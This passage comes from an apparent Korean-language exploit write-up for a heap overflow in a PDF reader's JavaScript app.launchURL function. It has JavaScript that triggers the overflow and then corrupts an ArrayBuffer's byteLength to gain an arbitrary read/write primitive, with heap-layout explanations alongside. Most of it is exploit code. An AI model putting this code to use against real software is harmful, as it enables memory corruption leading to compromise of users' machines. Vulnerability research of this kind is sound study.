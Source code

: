     ![image](https://github.com/user-attachments/assets/39409fa9-f79d-451c-a33c-d0b08c2a461a)
    [그림 1] Preparing Heap Layout 모식도
    

## 1.5. **Triggering the Vulnerability**

```js
function triggerHeapOverflow() {
    try {
        app.launchURL('bb' + 'a'.repeat(0x2608 - 2 - 0x200 - 1 -0x8));
    } catch(err) {}
}
```

1. baseURL이 연결된 URL을 저장할 heap 공간 앞쪽에 복사된다.
    1. 이때, 해당 heap은 ArrayBuffer가 아니라 일반 heap이기 때문에 heap chunk metadata 뒤에 바로 복사 된다. (ArrayBuffer로 할당했을 때 생성된 ArrayBuffer header 위치부터)
2. relative URL이 연결된 URL을 저장할 heap 공간 뒤쪽에 복사되면서, 연결된 ArrayBuffer의 byteLength 필드를 변조한다.
- [그림 2]과 [그림 3]에서 Base는 baseURL, relative는 relativeURL을 의미한다.

![image](https://github.com/user-attachments/assets/6cfd4595-8b18-4643-8976-5791b27dcbfe)
[그림 2] baseURL이 연결된 URL을 저장할 heap에 저장된 직후 heap과 해당 heap 이후의 heap(ArrayBuffer)의 모습

![image](https://github.com/user-attachments/assets/8ab78877-df7e-4d9c-87e2-87763c10d1f9)
[그림 3] URL 연결이 끝난 후 두 URL을 연결한 heap과 해당 heap 이후의 heap (ArrayBuffer)의 모습

## 2. Get Arbitrary R/W primitive

```js
// 1. oob index에 접근해서 읽고 쓸 수 있는 상대적 r/w primitive를 구현
for (var i = 0; i < arrA.length; i++) {
    if (arrA[i] != null && arrA[i].byteLength == 0xFFFF) {
      var temp = new DataView(arrA[i]);
      temp.setInt32(0x7F0 + 0x8 + 0x4, 0xFFFFFFFF, true);
    }

    if (arrA[i] != null && arrA[i].byteLength == -1) {
      var rw = new DataView(arrA[i]);
      break;
    }
}

// 2. oob base VA(= StartAddr) 획득 => 임의의 VA값 제어
if (rw) {
    curChunkBlockOffset = rw.getUint8(0xFFFFFFED, true);
    BitMapBufOffset = curChunkBlockOffset * (strConUrlSize + 8) + 0x18

    for (var i = 0; i < 0x30; i += 4) {
        BitMapBufOffset += 4;
        signature = rw.getUint32(0xFFFFFFFF + 1 - BitMapBufOffset, true);
        if (signature == 0xF0E0D0C0) {
            BitMapBufOffset -= 0xC;
            BitMapBuf = rw.getUint32(0xFFFFFFFF + 1 - BitMapBufOffset, true);
            break;
        }
    }
    if (BitMapBuf) {
        StartAddr = BitMapBuf + BitMapBufOffset - 4;
    }
 }
```
